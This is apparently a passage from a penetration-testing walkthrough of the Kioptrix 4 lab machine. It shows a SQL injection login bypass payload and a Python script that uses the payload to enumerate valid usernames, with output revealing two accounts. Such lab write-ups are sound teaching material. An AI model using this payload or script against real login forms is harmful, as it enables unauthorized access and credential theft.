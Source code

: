 With version 3.0.28a identified, I took a look at some of the vulnerabilities it is affected by, but seemingly nothing to use for initial access; so I moved on to the web server.

## Web Server and SQLi Enumeration
Checking out the web server presented me instantly with a login page; naturally, the first thing I tried is the usual SQLi test.

I submitted the form with `admin` as the username, and `'or'a'='a` as the password, which seemingly logged me in and showed me this message:

```
User admin

Oups, something went wrong with your member's page account.
Please contact your local Administrator
to fix the issue.
```

It seemed that the page was authenticating me, but then failing to load details of the user account due to `admin`, presumably, not existing.

As this SQL injection was able to confirm when a username is invalid, I put together a small Python script to automate using this injection in combination with a wordlist:

```python
import requests
import sys

with open(sys.argv[1], 'r') as f:
  for line in f:
    sys.stdout.write("Trying username: %s                                  \r" % line.strip())
    sys.stdout.flush()
    r = requests.post("http://10.2.0.104/checklogin.php", data={ 'myusername' : line.strip(), 'mypassword' : "'or'a'='a", 'Submit' : 'Login' }, allow_redirects=True)
    if r.text.find("Oups, something went wrong") == -1:
      print "++ Found user %s ++" % line.strip()
```

This script will iterate through a wordlist (passed to it as the first argument), use the current line as the username value when submitting the form with the SQLi payload as the password and then check if it can find the constant "Oups, something went wrong". If the constant isn't found, it will flag up that the username appears to be valid.

When running the script with a copy of the [names.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt) wordlist from the [SecLists](https://github.com/danielmiessler/SecLists) project, it confirmed the existence of two accounts:

```shell_session
root@kali:~/kioptrix4# python user_enum.py names.txt
++ Found user john ++                                             
++ Found user robert ++
```

Now that I had confirmed two valid usernames, I logged in to both accounts using the same SQL injection, and was presented with their passwords in plain text after logging in to each.
